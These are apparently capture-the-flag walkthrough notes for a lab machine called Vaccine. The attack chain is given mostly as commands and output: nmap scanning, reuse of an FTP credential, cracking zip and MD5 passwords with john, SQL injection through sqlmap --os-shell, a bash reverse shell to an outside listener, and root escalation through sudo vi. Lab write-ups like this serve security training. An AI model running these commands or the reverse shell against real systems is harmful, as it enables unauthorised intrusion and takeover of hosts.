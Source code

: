 ## ------------------->> Vaccine <<-------------------

// We will start with scanning using nmap

    $ nmap -sV -A -Pn 10.10.10.46 -p-
    Nmap scan report for 10.10.10.46
    Host is up (0.23s latency).
    Not shown: 65532 closed ports
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
    |   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
    |_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: MegaCorp Login
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
// we got 3 services running (FTP,SSH,HTTP). since we got credentials from last box(Oopsie), we can try to connect to FTP 

    ftp -p 10.10.10.46 
    ftpuser : mc@F1l3ZilL4
// we locate file called backup.zip in the ftp shared directory, lets grab him

    ftp> ls
    227 Entering Passive Mode (10,10,10,46,39,53).
    150 Here comes the directory listing.
    -rw-r--r--    1 0        0            2533 Feb 03  2020 backup.zip
    226 Directory send OK.

    ftp> get backup.zip
// its seems that file have password, lets crack the password using john

    $ zip2john backup.zip > hash
    $ john hash --fork=4 -w=/wordlist.txt
    backup.zip password : 741852963

index.php -> login admin password_md5 : "2cb42f8734ea607eefed3b70af13bbd3"

"2cb42f8734ea607eefed3b70af13bbd3" -> qwerty789


sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' 
	--cookie="PHPSESSID=ikk1tjpq926a0dkboj4hu8r36o" --os-shell

sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=eig0j4h3v77v8prj79sug2hu50" --os-shell

// upgrade connection with nc listiner on port 1234
bash -c 'bash -i >& /dev/tcp/10.10.16.66/1234 0>&1'

// upgrade nc shell
SHELL=/bin/bash script -q /dev/null


postgres@vaccine:/var/www/html$ cat dashboard.php

try {
  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
}


-------------------1 way--------------
postgres@vaccine:$ python3 -c "import pty;pty.spawn('/bin/bash')"
P@s5w0rd!
------------------2 way ---------------
ssh open so....
ssh postgres@10.10.10.46
P@s5w0rd!


// add root privilleged configuration file
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
// add
:!/bin/bash


root@vaccine:~# cat root.txt
dd6e058e814260bc70e9bbdef2715849

